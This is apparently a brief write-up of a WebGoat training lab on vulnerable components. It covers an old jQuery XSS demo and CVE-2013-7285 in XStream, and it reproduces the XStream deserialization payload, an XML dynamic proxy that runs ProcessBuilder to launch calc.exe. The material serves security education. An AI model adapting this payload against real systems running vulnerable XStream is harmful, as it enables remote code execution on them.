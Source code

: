 # Vulnerable Components - A9
## The exploit is not always in “your” code
Pressing both Go buttons shows how an older version of the jQuery library used to be vulnerable to XSS attacks.

## Exploiting CVE-2013-7285 (XStream)
WebGoat keeps failing to serialize any XML (even the stock one provided in the description).
![](./Img/xstream_fail.png)

But an example attack is described in XStream’s documentation: [CVE-2013-7285](http://x-stream.github.io/CVE-2013-7285.html.)
```HTML
<contact>
  <dynamic-proxy>
    <interface>org.company.model.Contact</interface>
    <handler class='java.beans.EventHandler'>
      <target class='java.lang.ProcessBuilder'>
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</contact>
```
